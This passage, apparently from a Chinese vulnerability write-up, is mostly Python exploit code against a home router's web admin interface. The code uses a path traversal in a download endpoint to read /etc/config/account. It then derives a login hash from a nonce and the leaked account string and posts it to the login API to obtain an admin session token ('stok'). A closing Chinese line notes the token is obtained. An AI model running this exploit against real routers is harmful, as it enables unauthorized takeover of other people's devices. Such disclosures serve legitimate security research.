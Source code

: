 ```python
	## read /etc/config/account
	r1 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../etc/config/account", proxies=proxies)
	print(r1.text)
	account_str = re.findall(r'admin\'? \'(.*)\'', r1.text)[0]
	return account_str

def create_nonce(mac):
	type_ = 0
	deviceId = mac
	time_ = int(time.time())
	rand = random.randint(0,10000)
	return "%d_%s_%d_%d"%(type_, deviceId, time_, rand)

def calc_password(nonce, account_str):
	m = hashlib.sha1()
	m.update((nonce + account_str).encode('utf-8'))
	return m.hexdigest()

mac = get_mac()
account_str = get_account_str()
## login, get stok
nonce = create_nonce(mac)
password = calc_password(nonce, account_str)
data = "username=admin&password={password}&logtype=2&nonce={nonce}".format(password=password,nonce=nonce)
r2 = requests.post("http://192.168.31.1/cgi-bin/luci/api/xqsystem/login", 
	data = data, 
	headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0",
		"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"},
	proxies=proxies)
# print(r2.text)
stok = re.findall(r'"token":"(.*?)"',r2.text)[0]
print("stok="+stok)
```

![](2.png)

可以获取到登录的stok。

